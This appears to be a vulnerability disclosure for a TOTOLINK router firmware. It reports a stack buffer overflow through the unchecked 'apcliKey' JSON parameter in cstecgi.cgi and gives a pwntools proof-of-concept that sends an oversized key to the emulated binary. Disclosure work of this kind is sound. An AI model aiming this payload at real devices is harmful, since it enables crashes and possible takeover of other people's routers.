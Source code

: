## Overview

- The device's official website: http://www.totolink.cn/home/menu/newstpl.html?menu_newstpl=products&id=2
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## Affected version

V4.3.0cu.7647_B20210106

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_0041bac4` (at address 0x041bac4) gets the JSON parameter `apcliKey`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 

<img src="img/1.png" alt="1.png" style="zoom:50%;" />

<img src="img/2.png" alt="2.png" style="zoom:50%;" />

## POC

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setWiFiRepeaterConfig",
    "operationMode": "2",
    "apcliAuthMode": "WEP",
    "apcliKeyFormat": "0",
    "apcliKey": 'A'*0x200,
    "ipAddress": "192.168.2.1"
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mips-static",
    "-g", "1234",
    "-L", "./lib",
    "-E", "LD_PRELOAD=./hook.so",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)

a.sendline(data.encode())

a.interactive()
```

